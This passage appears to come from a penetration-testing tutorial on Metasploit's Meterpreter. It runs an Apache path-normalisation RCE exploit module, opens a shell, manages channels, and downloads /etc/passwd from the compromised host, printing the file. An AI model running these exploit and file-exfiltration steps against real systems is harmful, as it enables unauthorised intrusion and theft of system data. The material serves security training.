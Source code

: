 ```bash
msf6 exploit(multi/http/apache_normalize_path_rce) > run
meterpreter > help
meterpreter > sysinfo
meterpreter > getuid
```

As we've already learned, Metasploit uses sessions to manage access to different machines. When Metasploit interacts with a system within a session, it uses a concept named channels. Let's start an interactive shell by entering shell, execute a command in the context of a channel, and background the channel the shell runs in. To background a channel, we can use Ctrl+z.

```bash
meterpreter > shell
Process 196 created.
Channel 2 created.
whoami
daemon
^Z
Background channel 2? [y/N]  y
```

```bash
meterpreter > channel -l

    Id  Class  Type
    --  -----  ----
    1   3      stdapi_process
    2   3      stdapi_process

meterpreter > channel -i 1
Interacting with channel 1...

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Next, let's use the download and upload commands from the category File system Commands to transfer files to and from the system. For this, let's review the commands of this category first.

```bash
meterpreter > lpwd
/home/kali

meterpreter > lcd /home/kali/Downloads

meterpreter > lpwd
/home/kali/Downloads

meterpreter > download /etc/passwd
[*] Downloading: /etc/passwd -> /home/kali/Downloads/passwd
[*] Downloaded 1.74 KiB of 1.74 KiB (100.0%): /etc/passwd -> /home/kali/Downloads/passwd
[*] download   : /etc/passwd -> /home/kali/Downloads/passwd

meterpreter > lcat /home/kali/Downloads/passwd
root:x:0:0:root:/root:/bin/bash
...
```

